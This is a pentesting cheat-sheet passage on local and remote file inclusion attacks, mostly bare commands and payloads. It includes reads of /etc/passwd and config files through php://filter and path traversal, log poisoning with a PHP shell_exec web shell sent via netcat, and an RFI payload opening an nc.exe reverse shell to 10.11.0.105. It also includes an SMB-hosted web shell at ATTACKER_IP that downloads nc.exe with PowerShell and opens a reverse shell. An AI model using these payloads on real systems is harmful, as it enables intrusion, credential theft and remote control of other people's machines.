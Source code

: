 https://github.com/danielmiessler/SecLists/tree/master/Usernames

### LFI-RFI

```bash
#Fimap
fimap -u "http://$IP/example.php?test="

curl -s http://$IP/gallery.php?page=/etc/passwd

#Use in "page="

php://filter/convert.base64-encode/resource=/etc/passwd

http://$IP/maliciousfile.txt%00

php://filter/convert.base64-encode/resource=../config.php

php://filter/convert.base64-encode/resource=../../../../../boot.ini

# LFI Windows  :warning:
LANG=../../windows/system32/drivers/etc/hosts%00
LANG=../../xampp/apache/logs/access.log%00&cmd=ipconfig

# Contaminating log files
root@kali:~# nc -v $IP 80
$IP: inverse host lookup failed: Unknown host
(UNKNOWN) [$IP] 80 (http) open
 <?php echo shell_exec($_GET['cmd']);?>

# Contaminating log files
[root:~]# nc -v $IP 80
$IP: inverse host lookup failed: Unknown host
(UNKNOWN) [$IP] 80 (http) open
 <?php echo shell_exec($_GET['cmd']);?>

# RFI:
http://$IP/addguestbook.php?LANG=http://$IP:31/evil.txt%00
Content of evil.txt:
<?php echo shell_exec("nc.exe 10.11.0.105 4444 -e cmd.exe") ?>

# PHP Filter:
http://$IP/index.php?m=php://filter/convert.base64-encode/resource=config

# RFI over SMB (Windows)
cat php_cmd.php
    <?php echo shell_exec($_GET['cmd']);?>
# Start SMB Server in attacker machine and put evil script
# Access it via browser (2 request attack):
lang=\\ATTACKER_IP\ica\php_cmd.php&cmd=powershell -c Invoke-WebRequest -Uri "http://10.10.14.42/nc.exe" -OutFile "C:\\windows\\system32\\spool\\drivers\\color\\nc.exe"
lang=\\ATTACKER_IP\ica\php_cmd.php&cmd=powershell -c "C:\\windows\\system32\\spool\\drivers\\color\\nc.exe" -e cmd.exe ATTACKER_IP 1234

```
> read this :
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
